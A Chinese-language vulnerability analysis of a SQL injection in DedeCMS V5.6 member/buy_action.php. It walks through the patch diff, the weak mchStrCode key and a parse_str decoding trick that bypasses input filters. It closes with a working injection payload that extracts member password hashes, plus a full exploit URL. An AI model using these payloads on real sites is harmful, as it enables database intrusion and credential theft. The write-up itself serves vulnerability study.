






本次实例分析，我们选取的是**DedeCmsV5.6**版本。该版本的**buy_action.php**处存在SQL注入漏洞，这里其实和**parse_str**有很大关系，下⾯我们来看看具体的漏洞位置。

## 补丁分析

官网于20140225发布了**V5.7.36** 正式版0225常规更新补丁，这里面的改动一共四个文件 **dede/sys_info.php** 、 **dede/templets/sys_info.htm** 、**include/uploadsafe.inc.php** 、**member/buy_action.php** 。这里我们关注一下 **member/buy_action.php** 这个文件的改动情况。


diff一下补丁和源文件：（这里采用sublime的FileDiffs插件来进行diff对比）



改动部分，主要针对加密函数的强度进行了加强，所以做一个推断这个漏洞应该是由于 **mchStrCode** 这个编码方法造成的。在读这个函数时发现，如果在我们知道 **cfg_cookie_encode** 的情况下，被编码字符串是可以被逆推出来的。

这个漏洞在乌云上爆出来的时候，是sql注入，所以我推断可能在调用这个编码函数进行解码的地方，解码之后可能没有任何过滤和绕过，又或者可以可绕过过滤，导致sql语句拼接写入到了数据库，而且这里解码的函数可以被攻击者控制，从而导致了SQL注入的产生。

## 原理分析

我们全局搜索一下哪些地方调用了这个 **mchStrCode** 函数，发现有三处（可以用sublime `Ctrl+Shitf+F` 进行搜索）：


**第17行** (上图)的 **parse_str** 引起了我的兴趣，看一下这一小段代码做了些什么（下图第4行处）：



我们重点来看if语句开始时的三行代码， **mchStrCode** 是我们在上一小节通过对比补丁发现变化的函数。也就是说，这个函数可以编码或者解码用户提交的数据，而且 **$pd_encode** 也是我们可以控制的变量。

**parse_str** 方法将解码后 **$pd_encode** 中的变量放到 **$mch_Post** 数组中，之后的 **foreach** 语句存在明显的变量覆盖，将 **$mch_Post** 中的key定义为变量，同时将key所对应的value赋予该变量。然后，再向下就是执行SQL查询了。

在这个过程中存在一个明显的疏忽是，没有对定义的 **key** 进行检查，导致攻击者可以通过 **mschStrCode** 对攻击代码进行编码，从而绕过GPC和其他过滤机制，使攻击代码直达目标。我们再来看看 **mchStrCode** 函数的代码：



上图我们要注意第三行 **$key** 值的获取方法：

```php
$key = substr(md5($_SERVER["HTTP_USER_AGENT"].$GLOBALS['cfg_cookie_encode']),8,18);
```

这里将 **$_SERVER["HTTP_USER_AGENT"]** 和 **$GLOBALS['cfg_cookie_encode']** 进行拼接，然后进行md5计算之后取前 **18** 位字符，其中的 **$_SERVER["HTTP_USER_AGENT"]** 是浏览器的标识，可以被我们控制，关键是这个 **$GLOBALS['cfg_cookie_encode']** 是怎么来的。通过针对补丁文件的对比，发现了 **/install/index.php** 的 **\$rnd_cookieEncode** 字符串的生成同样是加强了强度， **\$rnd_cookieEncode** 字符串最终也就是前面提到的 **\$GLOBALS['cfg_cookie_encode']** 



看看源代码里是怎么处理这个的 **\$rnd_cookieEncode** 变量的。


这段代码生成的加密密匙很有规律，所有密匙数为26^6*(9999-1000)=2779933068224,把所有可能的组合生成字典，用passwordpro暴力跑MD5或者使用GPU来破解，破解出md5过的密匙也花不了多少时间。 当然这个是王权有可能的，但是很耗时间，所以下一步看看有没有办法能够绕过这个猜测的过程，让页面直接回显回来。

## 利用思路

虽然整个漏洞利用原理很简单，但是利用难度还是很高的，关键点还是如何解决这个 **mchStrCode** ， **mchStrCode** 这个函数的编码过程中需要知道网站预设的 **cfg_cookie_encode** ，而这个内容在用户界面只可以获取它的MD5值。虽然**cfg_cookie_encode**的生成有一定的规律性，我们可以使用MD5碰撞的方法获得，但是时间成本太高，感觉不太值得。所以想法是在什么地方可以使用 **mchStrCode** 加密可控参数，并且能够返回到页面中。所以搜索一下全文哪里调用了这个函数。

于是，我们在 **member/buy_action.php** 的104行找到了一处加密调用：**\$pr_encode = str_replace('=', '', mchStrCode($pr_encode));** 我们来看一下这个分支的整个代码：



这里的 **第38行** 有一 `$tpl->LoadTemplate(DEDEMEMBER.'/templets/buy_action_payment.htm');` 在 **/templets/buy_action_payment.htm** 中，我找到了页面上回显之前加密的 **$pr_encode** 和 **$pr_verify** 。


通过这部分代码，我们可以通过 **[cfg_dbprefix=SQL注入]** 的提交请求，进入这个分支，让它帮助我来编码 **[cfg_dbprefix=SQL注入]** ，从而获取相应的 **pr_encode** 和 **pr_verify** 。 但是 **common.inc.php** 文件对用户提交的内容进行了过滤，凡提交的值以cfg、GLOBALS、GET、POST、COOKIE 开头都会被拦截，如下图第11行。



这个问题的解决就利用到了 **$REQUEST** 内容与 **parse_str** 函数内容的差异特性。我们url传入的时候通过**[a=1&b=2%26c=3]**这样的提交时， **$REQUEST** 解析的内容就是 **[a=1，b=2%26c=3]** 。而通过上面代码的遍历进入 **parse_str** 函数的内容则是 **[a=1&b=2&c=3]** ，因为 **parse_str** 函数会针对传入进来的数据进行解码，所以解析后的内容就变成了**[a=1，b=2，c=3]**。所以可以通过这种方法绕过 **common.inc.php** 文件对于参数内容传递的验证。

## 漏洞利用

访问 **buy_action.php** 文件，使用如下参数：

```less
product=card&pid=1&a=1%26cfg_dbprefix=dede_member_operation WHERE 1=@'/!12345union/ select 1,2,3,4,5,6,7,8,9,10 FROM (SELECT COUNT(),CONCAT( (SELECT pwd FROM dede_member LIMIT 0,1),FLOOR(RAND(0)2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a %23
```

其中 **product** 和 **pid** 参数是为了让我们进入 **mchStrCode** 对传入数据进行编码的分支，参数 **a** 是为了配合上面提到的差异性而随意添加的参数。从 **cfg_dbprefix** 开始，便是真正的SQL注入攻击代码。 访问该URL后，在页面源码中找到 **pd_encode** 和 **pd_verify** 字段的值，由于用户 **Cookie** 和 **User-Agent** 不同，所获取的值也不同，然后在页面上找到了 **pd_encode** 和 **pd_verify**的值，如下图：


最后再构造一下payload就好了：

```less
http://127.0.0.1//dedecms5.6/member/buy_action.php?pd_encode=QEpWVhZbEV9SUkBUEEBfAF8CFlkEA0VbAwVuV1BARFVQDRoOVF1dVzxVAA9TVkBvWUBTFgNHWVdXEjRwIDB0EwMNdhcZRVMBAwwMRw1RCgweE0FVWlVVEEICHAoVAU8MSVcdBR4HGggaXU4CABh/YCx1RUpidn51dWQWJy1mfmwRG097KixycmYYFhhlIS52c2wZQhRcRSRjfH8QUlVSAT1eVVVbVxEYKSt8emYQBhwHTU51fHd2YEtqJCx1GwIZBBkfHEJ1Ynd0Eip2Iy1jfnNkf394OzFweH10c017LSNjcnFkc2JpNydnYxh+YCxtNUJzahJIH1EWR0RmfWddWxBMDAxSR1tUCwEAUFEEBV4JVFEBUVYIHgIHAQRQXAQHCAsLAAIBSFYJBgUGUB0HVwEFCAgUA1UMVlUEVQJWBFIBUAQVc3ZjaCd5MSMAAwIABgYBU1IHDQkBB1IIVVMBBQcdBwUEXVsABwsKAU5QERZBFgFxEwJwQVB1AQELHFIOXUwDBwoeBwIPQVB1TAkMAFoBVlUCAAEWVFRFDANBVWdfWxFLEQtcVg8BAwMGVFMEBg8PBVUAQzJ5Y2F1ZWN/IF9XA1tdBFVeVAcIAlRVDlJVAFtRVV5YC1INAVsHBgpUBBZyAQZWZUtcQCp8WFAXd1dUU2VFARB6dGdmUQh1AVcMAABVAVJSVVcKAABdAlAAA0R1VlZVel9RDQxnWVVcD1INVlICAAICBwQQIAdXVXRWVQpWMQtcVm1vVVt7AFcOAl4IAlANBFUGVlMFBFIHUA&pd_verify=fbe183b4c5a69ac7fb394a4b5cd5cfcb
```

再次提醒，因为每个人的 **cookie** 和 **User-Agent** 都不一样，所以生成的也不一样，建议大家自己生成一下。